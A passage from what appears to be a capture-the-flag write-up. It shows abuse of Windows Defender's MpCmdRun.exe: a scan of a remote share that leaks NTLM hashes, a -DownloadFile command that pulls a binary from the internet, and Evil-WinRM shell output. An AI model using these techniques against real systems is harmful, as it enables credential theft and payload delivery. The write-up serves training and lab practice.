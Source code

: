 ### MpCmdRun.exe

* [https://gbhackers.com/hackers-can-steal-windows-ntlm/](https://gbhackers.com/hackers-can-steal-windows-ntlm/)
* [https://github.com/Gl3bGl4z/All\_NTLM\_leak](https://github.com/Gl3bGl4z/All_NTLM_leak)

Some more research revealed a GitHub account with a good list of different ways to leak NTLM hashes. The entry on Windows Defender intrigued me.

> Windows Defender MpCmdRun
>
> ```powershell
> "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -Scan -ScanType 3 -File \\Server.domain\file.txt "c:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -url https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe -path \\Server.domain\
> ```

* [https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus)

> ```powershell
> -Scan [-ScanType [0\|1\|2\|3]] [-File <path> [-DisableRemediation] [-BootSectorScan] [-CpuThrottling]] [-Timeout <days>] [-Cancel]` 
> ```
> 
> Scans for malicious software. Values for ScanType are: 0 Default, according to your configuration, -1 Quick scan, -2 Full scan, -3 File and directory custom scan.

There was an argument that allowed for the user to specify a file or directory to scan.  Remote share scanning sounded like a useful feature to exploit!

```powershell
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\henry.vinson_adm\Documents\test> cd "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\"
Cannot find path 'C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\' because it does not exist.

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\henry.vinson_adm\Documents\test> cd "C:\ProgramData\Microsoft\Windows Defender\platform\"
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\ProgramData\Microsoft\Windows Defender\platform> ls


    Directory: C:\ProgramData\Microsoft\Windows Defender\platform


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/10/2020  11:09 AM                4.18.2010.7-0
d-----        3/17/2021   3:13 PM                4.18.2102.4-0
```
